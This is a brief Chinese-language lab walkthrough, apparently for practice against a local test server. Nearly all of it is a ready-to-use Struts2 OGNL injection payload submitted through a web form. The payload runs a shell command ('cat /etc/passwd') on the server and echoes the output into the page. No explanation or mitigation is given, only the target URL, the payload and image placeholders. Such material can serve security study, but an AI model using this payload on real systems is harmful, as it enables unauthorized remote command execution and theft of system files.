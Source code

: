 
# 实战

在浏览器输入
```
http://192.168.1.170:7777/struts2/index.jsp
```
然后在表单输入
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image]({path}/1.png)

![image]({path}/2.png)

